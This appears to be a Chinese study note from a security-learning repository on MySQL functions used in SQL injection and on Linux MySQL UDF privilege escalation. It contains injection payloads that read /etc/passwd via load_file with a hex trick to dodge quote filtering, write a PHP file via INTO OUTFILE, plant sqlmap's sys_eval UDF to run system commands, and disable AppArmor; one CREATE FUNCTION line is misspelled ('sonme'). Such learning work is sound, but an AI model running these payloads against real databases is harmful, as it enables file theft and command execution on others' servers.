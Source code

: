 ## Week4-数据库系统功能相关学习

### 0x00 任务目标

1. 学习数据库自带函数的功能和用法（思考在什么情况下可以使用）；
2. 将所有涉及的函数进行测试并举例说明其用法；
3. **扩展学习：**针对不同数据库构造所需环境，尝试执行系统命令。



### 0x01 MySQL常用函数

在进行sql注入过程中，会使用到mysql中的内置函数。在内置函数中，又分为获取信息的函数和功能函数。
信息函数是用来获取mysql中的数据库的信息，功能函数就是传统的函数用来完成某项操作。

1. 常用的信息函数

   - `database()`：用于获取当前使用的数据库信息

     ![](https://i.loli.net/2019/09/01/kHTNF6UoWxnZBim.png)

   - `version()`：返回数据库的版本

     ![](https://i.loli.net/2019/09/01/nuBY8U1WcEGFKDa.png)

   - `user()`：返回当前的用户（等价于current_user参数）

     ![](https://i.loli.net/2019/09/01/N3Y1HSFA4PjyXih.png)

   - `@@datadir`：获取数据库的存储位置

     ![](https://i.loli.net/2019/09/01/nbvtak6T7yXpr5J.png)

2. 常见的功能函数

   - `load_file()`：从计算机中载入文件，读取文件中的数据

     ```mysql
     select * from table union select 1, load_file('/etc/passwd'), 3
     select * from table union select 1, load_file(0x2F6574632F706173737764), 3 #使用十六进制绕过单引号限制
     ```

   - `into_outfile()`：写入文件，前提是具有写入条件

     ```mysql
     select '<?php phpinfo(); ?>' into outfile '/tmp/xxx.php';
     ```

   - `concat()`：返回两个参数相连接产生的字符串。如果其中一个参数为NULL，则返回值为NULL。

     ![](https://i.loli.net/2019/09/02/rACWF9Ppve2ykfn.png)

   - `group_concat()`：用于合并多条记录中的结果。用法如下：

     ![](https://i.loli.net/2019/09/02/OFPjlCwrDfgo2aE.png)

     返回的就是users表中所有的用户名，并且是作为一条记录返回。

   - `substr()`：用于截断字符串。用法为：`substr(str, pos, length)`，注意`pos`是从1开始的。

     ![](https://i.loli.net/2019/09/02/PCRvu4mXKnriNTZ.png)

   - `ascii()`：返回字符所对应的ascii码。

     ```mysql
     select ascii('a');          #返回97
     ```

   - `length()`：返回字符串的长度。

     ```mysql
     select length('123456')     #返回6
     ```

   - `if(exp1, exp2, exp3)`：如果exp1是True，则返回exp2；否则返回exp3。如：

     ```mysql
     select 1,2,if(1=1,3,-1) #1,2,3
     select 1,2,if(1=2,3,-1) #1,2,-1
     ```

   - `ifnull(exp1, exp2)`：如果exp1是True，则返回exp1；否则返回exp2。如：

     ```mysql
     select ifnull(sleep(2), 2);
     ```

   - `nullif(exp1, exp2)`：如果exp1==exp2，则返回Null；否则返回exp2。

   以上就是在进行sql注入工程中常用的函数。当然还存在一些使用的不是很多的函数。

### 0x02 Linux MySQL UDF提权

#### Step1 获取UDF文件

   1. 查看MySQL版本
   
      ```mysql
      select version();
      ```
   
      ![](https://i.loli.net/2019/09/04/Eqbomf7AdWHCJ46.png)
   
      Mysql版本大于5.1版本udf.dll文件必须放置于MYSQL安装目录下的lib\plugin文件夹下
   
   2. 查找Plugin目录
   
      ```mysql
      select @@plugin_dir;
      ```
   
      ![](https://i.loli.net/2019/09/04/kbd7FAIYerymlJa.png)
   
   3. 查看系统版本
   
      ```mysql
      show variables like '%compile%';
      ```
   
      ![](https://i.loli.net/2019/09/05/VJ1i2fDFLjlcO8C.png)
   
   4. 在Kali Linux中找到合适的UDF
   
      ![1567644797501](C:\Users\51196\AppData\Roaming\Typora\typora-user-images\1567644797501.png)
   
      > 注：新版sqlmap 为了防止文件被误杀，对文件进行异或加密，需要使用`/usr/share/sqlmap/extra/cloak/`路径下的cloak.py解密脚本对`lib_mysqludf_sys.so_`进行解码，即`python cloak.py -d -i /usr/share/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_`得到`lib_mysqludf_sys.so`文件

#### Step2 上传UDF文件

1. 首先确保MySQL允许对任意路径进行读写操作，即`secure_file_priv =`
   
   ![](https://i.loli.net/2019/09/05/X6zFtU5wSbcB4Me.png)
   
2. 将`lib_mysqludf_sys.so`传至`/tmp/`路径下，使用`load_file()`对其读取，并转换成十六进制文件后再写入`/tmp/`目录下：    
   ```mysql
   select hex(load_file('/tmp/lib_mysqludf_sys.so')) into dumpfile '/tmp/udf.hex'
   ```

   ![](https://i.loli.net/2019/09/05/U8WL4isHGR135SZ.png)

3. 读取`udf.hex`文件的内容，并上传至`/usr/bin/mysql/plugin/`：
   ```mysql
   select 0x[udf.hex内容] into dumpfile '/usr/bin/mysql/plugin/udf.so'
   ```
#### Step3 执行命令

1. 安装UDF

   ```mysql
   create function sys_eval returns string sonme 'udf.so';
   ```

   ![](https://i.loli.net/2019/09/05/UNbKlLsftYQFX1h.png)

2. 执行系统命令

   ![](https://i.loli.net/2019/09/05/yxeQCoJdXN8kMlT.png)

### 0x03 踩过的坑

1. 在设置 `secure_file_privilege=''` 且目录权限为 `777` 后`load_file()` 无法读取文件。

   - [检查Apparmor配置](https://bingslient.github.io/2019/08/16/MySQL%20%E6%95%B0%E6%8D%AE%E5%BA%93%E7%B3%BB%E7%BB%9F%E8%A1%A8%E7%9A%84%E5%88%A9%E7%94%A8/#%E4%BD%BF%E7%94%A8-load-file-%E5%87%BD%E6%95%B0)
   - 检查文件的用户组是否是属于mysql

2. 无法上传`udf.so`至`/usr/bin/mysql/plugin/`目录。

   - 检查该目录的其他组用户受否有读写权限
   - 检查文件的用户组是否是属于mysql

3. 上传`udf.so`至指定目录后，`create function`失败。

   - UDF使用的版本和本机环境不匹配
   - 没有对sqlmap中的UDF文件进行解码操作

4. 使用`select sys_eval();`执行命令返回`NULL`。

   [取消Apparmor对mysqld service的限制](https://www.cyberciti.biz/faq/ubuntu-linux-howto-disable-apparmor-commands/)

   简单来说就是执行下面两个命令：

   ```bash
   sudo ln -s /etc/apparmor.d/usr.sbin.mysqld /etc/apparmor.d/disable/
   sudo apparmor_parser -R /etc/apparmor.d/usr.sbin.mysqld
   ```

   